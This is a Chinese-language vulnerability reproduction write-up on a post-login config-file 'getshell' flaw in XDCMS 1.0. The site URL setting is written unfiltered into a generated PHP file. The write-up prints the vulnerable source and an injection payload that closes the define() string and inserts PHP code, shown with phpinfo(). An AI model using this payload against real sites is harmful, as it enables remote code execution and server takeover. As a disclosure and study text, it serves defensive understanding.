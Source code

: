 XDCMS 1.0 后台配置文件getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

![](resource/XDCMS1.0后台配置文件getshell/media/rId24.png)

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

    if($tag=='config'){
        //判断url是否以/结尾
        $urlnum=strlen($info['siteurl'])-1;
        if(substr($info['siteurl'],$urlnum,1)!="/"){
            showmsg(C("update_url_error"),"-1");
        }//end

        $cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
        $cmsurl="<?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?>";
        creat_inc($cms,$cmsurl);

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

    <?php
     define('CMS_URL','http://127.0.0.5/');
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里我们可以构造siteurl：

    hello');?><?php phpinfo();?>

点击保存后，我们去查看一下该配置文件：

    <?php
     define('CMS_URL','hello');?><?php phpinfo();?>';
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

![](resource/XDCMS1.0后台配置文件getshell/media/rId25.png)

